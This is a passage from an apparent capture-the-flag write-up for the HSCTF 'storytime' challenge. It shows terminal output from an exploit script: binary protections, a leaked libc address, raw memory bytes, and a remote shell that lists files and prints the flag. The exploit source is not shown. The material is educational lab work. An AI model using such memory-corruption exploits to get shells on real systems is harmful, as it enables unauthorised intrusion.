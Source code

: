 When we run it:
```
$    python exploit.py
[+] Opening connection to pwn.hsctf.com on port 3333: Done
[*] '/Hackery/hs/storytime/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
HSCTF PWNNNNNNNNNNNNNNNNNNNN
Tell me a story:

0x7fddbba46000
[*] Switching to interactive mode
Pҳ\xbb�\x00\x00p^\xab\xbb�\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00 \xb6���\x7f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00ls
bin
dev
flag
lib
lib32
lib64
storytime
$ ls
bin
dev
flag
lib
lib32
lib64
storytime
$ cat flag
hsctf{th4nk7_f0r_th3_g00d_st0ry_yay-314879357}
```

Just like that, we captured the flag!
